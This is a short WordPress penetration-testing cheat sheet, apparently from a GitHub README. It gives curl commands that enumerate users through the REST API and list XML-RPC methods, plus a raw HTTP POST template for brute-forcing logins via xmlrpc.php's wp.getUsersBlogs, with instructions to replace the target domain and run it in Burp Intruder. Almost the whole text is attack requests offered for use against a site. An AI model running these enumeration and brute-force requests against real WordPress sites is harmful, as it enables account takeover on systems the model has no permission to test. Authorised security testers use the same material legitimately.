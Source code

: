 # Pentesting Wordpress

## Rest API User Enumeration

    curl -k https://$DOMAIN/wp-json/wp/v2/users
    curl -k https://$DOMAIN/wp-json/akismet/v1
    curl -k https://$DOMAIN/wp-json
    curl -k https://$DOMAIN/wp-json/wp/v2/pages

## Brute Force Login

### List all methods
    
    curl -L -X POST -d '<methodCall> <methodName>system.listMethods</methodName> <params></params> </methodCall>' https://$DOMAIN/xmlrpc.php
    
    
### POST Request
This is used for the brute force login.  Replace $DOMAIN with the domain you are attacking. Use Burp Suite Intruder to attack.

```
POST //xmlrpc.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Encoding: gzip,deflate
Content-Length: 264
Host: $DOMAIN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
Connection: Keep-alive
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall> <methodName>wp.getUsersBlogs</methodName>
<params> <param><value><string>admin</string></value></param>
<param><value><string>894437894437534447</string></value> </param>
</params>
</methodCall>
```
